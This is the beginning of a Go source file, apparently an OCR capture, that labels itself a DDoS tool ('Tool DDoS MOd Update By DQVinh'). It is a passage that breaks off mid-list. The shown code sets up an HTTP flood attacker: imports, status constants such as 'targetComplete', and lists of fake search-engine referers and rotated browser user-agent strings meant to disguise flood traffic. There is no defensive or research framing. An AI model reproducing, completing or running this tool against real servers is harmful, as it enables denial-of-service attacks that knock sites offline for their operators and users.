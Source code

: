 package main

/*
Tool DDoS MOd Update By DQVinh 
*/

import (
	"flag"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"net/url"
	"os"
	"os/signal"
	"strconv"
	"strings"
	"sync/atomic"
	"syscall"
)

const __version__ = "1.0.1"

// const acceptCharset = "windows-1251,utf-8;q=0.7,*;q=0.7" // use it for runet
const acceptCharset = "ISO-8859-1,utf-8;q=0.7,*;q=0.7"

const (
	callGotOk uint8 = iota
	callExitOnErr
	callExitOnTooManyFiles
	targetComplete
)

// global params
var (
	safe            bool     = false
	headersReferers []string = []string{
		"http://www.google.com/?q=",
		"http://www.usatoday.com/search/results?q=",
		"http://engadget.search.aol.com/search?q=",
		//"http://www.google.ru/?hl=ru&q=",
		//"http://yandex.ru/yandsearch?text=",
	}
	headersUseragents []string = []string{
		"Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3",
		"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Vivaldi/1.3.501.6",
		"Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)",
		"Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)",
		"Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1",
		"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)",
		"Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)",
		"Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)",
		"Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51",